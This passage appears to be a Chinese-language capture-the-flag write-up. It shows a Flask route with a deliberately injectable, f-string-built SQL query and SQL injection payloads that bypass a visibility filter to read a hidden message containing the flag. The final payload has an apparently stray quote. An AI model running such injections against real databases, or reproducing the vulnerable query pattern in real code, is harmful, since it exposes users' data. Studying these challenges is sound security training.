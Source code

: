 ```python
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(
        f"select title, contents from messages where id = '{conversation_id}'"
    )
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

需要注意的是，`execute_query` 函数默认只获取一条记录：

```python
def execute_query(s: str, fetch_all: bool = False):
    conn = sqlite3.connect("file:/tmp/data.db?mode=ro", uri=True)
    cur = conn.cursor()
    res = cur.execute(s)
    if fetch_all:
        return res.fetchall()
    else:
        return res.fetchone()
```

题目作者希望先用爬虫脚本解决第一题「千里挑一」，然后使用 SQL 注入解决第二题「窥视未知」。但如果只用 SQL 注入，应该会更容易解决「窥视未知」，然后才是「千里挑一」。

这是我比赛时的做题顺序，接下来也按照这个顺序，只用 SQL 注入。

### 窥视未知

在 `/list` 中，SQL 查询限制了只显示 `shown = true` 的对话：

```python
results = execute_query(
    "select id, title from messages where shown = true", fetch_all=True
)
```

但在 `/view` 中存在 SQL 注入漏洞，我们可以构造 Payload 绕过这个限制：

```
' or shown = false --
```

这个 Payload 会使 SQL 语句变为：

```sql
select title, contents from messages where id = '' or shown = false --'
```

这样查询条件就从匹配特定 ID 变成了获取所有 `shown = false` 的对话。

由于 `execute_query()` 默认只返回一条记录，所以这个方法仅在隐藏对话只有一篇时有效。

经过测试，数据库中确实只有一篇隐藏对话，其内容底部包含 Flag。

如果数据库中有多篇隐藏对话，那么可以使用 `like` 语句匹配包含 `flag` 的结果：

```
' or shown = false and contents like '%flag%'' --
```
